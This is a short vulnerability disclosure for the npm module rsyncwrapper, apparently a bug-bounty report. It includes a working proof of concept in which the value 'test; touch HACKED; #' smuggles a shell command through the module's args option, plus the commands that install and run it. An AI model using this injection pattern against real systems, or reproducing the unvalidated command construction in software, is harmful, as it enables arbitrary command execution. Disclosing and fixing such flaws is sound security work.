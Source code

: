 # Description

The `rsyncwrapper` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var rsync = require('rsyncwrapper');
rsync({privateKey:'', src:'', dest:'', args:['test; touch HACKED; #']}, function(e){console.log(e)})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i rsyncwrapper # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
